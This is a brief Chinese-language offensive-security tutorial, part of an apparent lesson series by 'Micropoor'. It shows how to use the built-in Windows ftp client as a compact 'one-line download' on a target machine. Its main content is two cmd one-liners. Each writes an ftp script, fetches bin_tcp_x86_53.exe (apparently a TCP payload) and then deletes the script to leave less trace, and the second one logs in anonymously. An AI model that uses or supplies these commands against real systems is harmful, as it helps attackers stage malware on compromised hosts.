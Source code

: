 **windows 全平台自带ftp，在实战中需要考虑两点。**  
* 数据传输的完整性。  
* 代码得精简

本季作为第四十课的补充，一句话下载更为精简。更符合于实战。

**靶机：**  
192.168.1.119  

**demo下载文件为：**  
bin_tcp_x86_53.exe  
![](/img/a0c59424cccd7240a929a043c65a10d1.jpg)

```bash
echo open 127.0.0.1 > o&echo user 123 123 >> o &echo get bin_tcp_x86_53.exe >> o &echo quit >> o &ftp ‐n ‐s:o &del /F /Q o
```

![](/img/3f470da4395e76cac4553c1c7081a718.jpg)



缩短一句话下载：
```bash
echo open 127.0.0.1 > o&echo get bin_tcp_x86_53.exe >> o &echo quit >> o &ftp ‐A ‐n ‐s:o &del /F /Q o
```
![](/img/b4b18ed037915cf463987e9a1bd3ba9c.jpg)

![](/img/bf3ffa7da2f7737d7b8f4be920d3b143.jpg)

>   Micropoor
